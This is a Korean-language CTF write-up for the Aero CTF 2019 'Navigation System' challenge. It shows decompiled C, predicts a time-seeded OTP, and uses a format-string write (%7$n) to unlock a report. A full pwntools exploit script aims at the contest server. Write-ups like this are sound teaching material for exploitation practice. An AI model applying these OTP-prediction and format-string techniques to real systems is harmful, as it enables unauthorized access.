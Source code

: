 ```yaml
---
title: Aeroctf Writeup
date: 2019-03-11
---
```


# Navigation System

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+0h] [ebp-48h]
  unsigned int v5; // [esp+4h] [ebp-44h]
  char s1[4]; // [esp+8h] [ebp-40h]
  char v7[4]; // [esp+18h] [ebp-30h]
  unsigned int v8; // [esp+3Ch] [ebp-Ch]
  int *v9; // [esp+40h] [ebp-8h]

  v9 = &argc;
  v8 = __readgsdword(0x14u);
  wlc_msg();
  __isoc99_scanf("%16s", &s1[2]);
  printf("Password: ");
  fflush(stdout);
  __isoc99_scanf("%32s", &v7[3]);
  if ( strcmp(&s1[2], valid_login) )
  {
    puts("Username is invalid!");
    exit(-1);
  }
  if ( strcmp(&v7[3], valid_password) )
  {
    puts("Passowrd is invalid!");
    exit(-2);
  }
  v5 = genOTPcode(&s1[2], &v7[3]);
  printf("Enter the OTP code: ");
  fflush(stdout);
  __isoc99_scanf("%d", &v4);
  if ( v5 == v4 )
    UserPanel((int)&s1[2]);
  puts("OTP is incorrect!");
  fflush(stdout);
  return -1;
}
```

id, pw는 하드코딩되어 있어 바로 가능한데 OTP 코드가 문제다.

```c
unsigned int __cdecl genOTPcode(char *a1, char *a2)
{
  time_t v2; // eax
  unsigned int v3; // eax

  v2 = time(0);
  srand(*a2 + *a1 + v2);
  v3 = rand();
  return v3 + (v3 >= 0xFFFFFFFF);
}
```

time 기반으로 랜드 생성이라 시드를 맞출 수 있다. *a2 , *a1 = 't' 이다.(id,pw 의 첫 바이트를 가져온다)

대회 때는 못 풀었고 하다가 다른 ctf로 넘어갔는데 다 지나고나서 시드를 다시 맞춰봤다  OTP만  넘어가게되면

```c
void __cdecl __noreturn UserPanel(int a1)
{
  int v1; // [esp+Ch] [ebp-Ch]

  puts("-------------------- User menu --------------------");
  printf("Hello, %s\n", a1);
  fflush(stdout);
  while ( 1 )
  {
    while ( 1 )
    {
      puts("[1] Read latest report");
      puts("[2] Set a station");
      puts("[3] TODO");
      puts("[4] Exit");
      printf("> ");
      fflush(stdout);
      v1 = 4;
      __isoc99_scanf("%d", &v1);
      if ( v1 != 2 )
        break;
      setStation();
    }
    if ( v1 > 2 )
      break;
    if ( v1 != 1 )
      goto LABEL_13;
    readLastReport();
  }
  if ( v1 == 3 )
    UserExit();
  if ( v1 == 4 )
    UserExit();
LABEL_13:
  UserExit();
}
```

요 메뉴로 넘어가고

```c
unsigned int setStation()
{
  char buf[32]; // [esp+Ch] [ebp-2Ch]
  unsigned int v2; // [esp+2Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  printf("Set station > ");
  fflush(stdout);
  buf[read(0, buf, 0x20u)] = 0;
  printf("Station: ");
  printf(buf);
  putchar(10);
  return __readgsdword(0x14u) ^ v2;
}
```

요기의 포맷스트링을 이용해서

```c
int readLastReport()
{
  if ( flag )
    system("/bin/cat report.txt");
  else
    printf("[-] Access denied!");
  return putchar(10);
}
```

report.txt를 읽을 수 있다. 

```python
from pwn import *
from ctypes import *
import time
from datetime import datetime

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

t = remote('185.66.87.233', 5002)

#timestamp = time.mktime(datetime.today().timetuple())
#b = int(float(timestamp))

r("Login:")
s("test_account")
r("Password:")
s("test_password")
r("Enter the OTP code:")
libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
b = libc.time(0)
log.success("time ==> " + hex(b))
libc.srand(0x74*2 + b)
a = libc.rand()
log.success("rand ==> " + hex(a))
s(a)

r(">")
s("2")
r(">")
s(p32(0x0804C058) + "%7$n")
r(">")
s("1")

t.interactive()
```

서버가 너무 느려서 바로 보내기 직전에 time을 돌려줘야 하는 듯 ㅋㅋㅋㅋ (계속 안맞았었다 ㅠㅠ) report.txt가 flag여서 금방 끝 (rand 맞추는게 의도 였던 것 같다!)

```python
libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
b = libc.time(0)
libc.srand(0x74*2 + b)
a = libc.rand()
```

이게 time based srand 맞추기가 참 좋은듯 하다.(앞으로 이거 써야지) 

사실 시드 맞추는 데 여러 뻘짓이 있었는데.. OTP 입력하는 scanf가 %d였는데 %s인줄 알고 계속 팩해서 보냈어서 안맞았던 거였다 ㅠ.. 그래도 여러 방법으로 해봤으니 언젠간 쓸일이 있겠지!


